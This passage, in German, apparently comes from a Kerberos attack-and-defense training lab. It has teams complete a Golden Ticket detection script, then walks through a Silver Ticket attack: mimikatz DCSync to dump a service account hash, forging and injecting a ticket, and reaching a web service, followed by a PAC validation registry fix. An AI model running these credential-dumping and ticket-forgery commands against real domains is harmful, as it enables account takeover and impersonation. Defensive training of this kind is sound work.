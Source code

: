 **Golden Ticket Detection Challenge:**
```powershell
# Teams müssen Detection-Script erstellen
function Detect-GoldenTicket {
    param([string]$LogPath = "C:\Windows\System32\winevt\Logs\Security.evtx")
    
    # Event ID 4768: Kerberos TGT Request
    # Event ID 4769: Kerberos Service Ticket Request  
    # Verdächtige Muster suchen:
    
    $Events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768,4769} | Select-Object -First 100
    
    foreach ($Event in $Events) {
        $EventXML = [xml]$Event.ToXml()
        $EventData = $EventXML.Event.EventData.Data
        
        # Golden Ticket Indicators:
        # 1. Ticket Lifetime > 10 hours
        # 2. Unusual encryption type
        # 3. Missing initial authentication (4768) before service access (4769)
        
        # TODO: Implementieren Sie Detection Logic
    }
}

# Teams implementieren die Detection-Logic
```

### Lab 3.2: Silver Ticket Attack & Defense (15 Min)

**Service Account Hash extrahieren:**
```powershell
# Service Account Hash für Silver Ticket
lsadump::dcsync /domain:krblab.local /user:webservice

# Output: Service Account NTLM Hash
```

**Silver Ticket für HTTP Service:**
```cmd
# Silver Ticket für HTTP/web01.krblab.local erstellen
kerberos::golden /user:alice /domain:krblab.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:web01.krblab.local /service:HTTP /rc4:service_ntlm_hash /ticket:silver_http.kirbi

# Silver Ticket laden
kerberos::ptt silver_http.kirbi

# Web-Service direkt zugreifen (ohne KDC!)
curl http://web01.krblab.local/secure/
```

**PAC Validation Defense:**
```powershell
# Auf WEB01 - PAC Validation aktivieren
# Registry-Einstellung für PAC Validation
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters" -Name "ValidateKdcPacSignature" -Value 1 -PropertyType DWord

# Service neu starten
Restart-Service HTTP

# Silver Ticket sollte jetzt fehlschlagen!
```
